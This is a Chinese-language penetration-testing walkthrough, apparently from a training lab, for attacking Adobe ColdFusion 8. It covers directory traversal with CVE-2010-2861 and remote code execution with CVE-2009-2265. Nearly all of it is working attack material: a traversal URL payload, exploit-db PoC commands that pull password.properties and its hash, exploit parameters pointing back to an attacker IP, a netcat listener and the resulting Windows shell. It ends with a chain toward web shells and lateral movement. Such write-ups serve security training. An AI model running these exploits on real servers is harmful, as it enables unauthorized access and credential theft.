 # ColdFusion

> 商用的快速應用程式開發平台，在1995年由JJ Allaire開創。ColdFusion最初是為了建立能與[資料庫](https://zh.wikipedia.org/wiki/%E6%95%B0%E6%8D%AE%E5%BA%93)連接的網站而開發的。2.0版本（1996年推出）以後，它成為了一個全面的開發平台,包括一個[整合式開發環境](https://zh.wikipedia.org/wiki/%E9%9B%86%E6%88%90%E5%BC%80%E5%8F%91%E7%8E%AF%E5%A2%83)以及功能全面的[手稿語言](https://zh.wikipedia.org/wiki/%E8%84%9A%E6%9C%AC%E8%AF%AD%E8%A8%80)。ColdFusion支援的[CFML](https://zh.wikipedia.org/w/index.php?title=CFML\&action=edit\&redlink=1)（ColdFusion Markup Language）是一種[手稿語言](https://zh.wikipedia.org/wiki/%E8%84%9A%E6%9C%AC%E8%AF%AD%E8%A8%80)，檔案以\*.cfm為[檔名](https://zh.wikipedia.org/wiki/%E6%96%87%E4%BB%B6%E5%90%8D)，在ColdFusion專用的應用伺服器環境下執行。cfm檔案被編譯器翻譯為對應的[C++](https://zh.wikipedia.org/wiki/C%2B%2B)語言程式，然後執行並向瀏覽器返回結果。它的設計思想被一些人認為非常先進，被一些語言所借鑑。



## **🔍 1. 發現點**

* **目標系統**: Adobe ColdFusion 8
* **已知漏洞**:
  1. **目錄遍歷 (Directory Traversal)** → CVE-2010-2861
  2. **遠端程式碼執行 (Remote Code Execution, RCE)** → CVE-2009-2265
*   **使用 `searchsploit` 尋找漏洞**：

    ```bash
    searchsploit adobe coldfusion
    ```

    **發現 ColdFusion 8 RCE & 目錄遍歷漏洞**

***

## **🚀 2. 測試Payload**

#### **📂 目錄遍歷 (CVE-2010-2861)**

*   **驗證漏洞**

    ```http
    http://www.example.com/CFIDE/administrator/settings/mappings.cfm?locale=../../../../../etc/passwd
    ```
*   **使用 Searchsploit 複製並執行 PoC**

    ```bash
    searchsploit -p 14641
    cp /usr/share/exploitdb/exploits/multiple/remote/14641.py .
    python2 14641.py 10.129.204.230 8500 "../../../../../../../../ColdFusion8/lib/password.properties"
    ```
*   **成功獲取 `password.properties`**

    ```txt
    txt複製編輯rdspassword=0IA/F[[E>[$_6& \\Q>[K\=XP
    password=2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03
    encrypted=true
    ```

#### **💀 RCE (CVE-2009-2265)**

*   **下載並執行 RCE Exploit**

    ```bash
    searchsploit -p 50057
    cp /usr/share/exploitdb/exploits/cfm/webapps/50057.py .
    ```
*   **修改 Exploit 參數**

    ```python
    if __name__ == '__main__':
        lhost = '10.10.14.55'  # 攻擊者 VPN IP
        lport = 4444           # 監聽端口
        rhost = "10.129.247.30" # 目標 IP
        rport = 8500           # ColdFusion 端口
        filename = uuid.uuid4().hex
    ```
*   **執行攻擊**

    ```bash
    python3 50057.py
    ```

***

## **🎯 3. 取得反向 Shell**

*   **開始監聽**

    ```bash
    nc -lvnp 4444
    ```
*   **成功獲取遠端 Shell**

    ```txt
    Microsoft Windows [Version 6.1.7600]
    C:\ColdFusion8\runtime\bin>
    ```

***

## **🔗 5. 連鎖漏洞**

✅ **ColdFusion 8 目錄遍歷 → 洩露敏感文件 (`password.properties`)**\
✅ **利用 `password.properties` 嘗試解密管理密碼**\
✅ **ColdFusion 8 RCE → 上傳 Web Shell 獲取遠端存取**\
✅ **進一步提權或橫向移動**
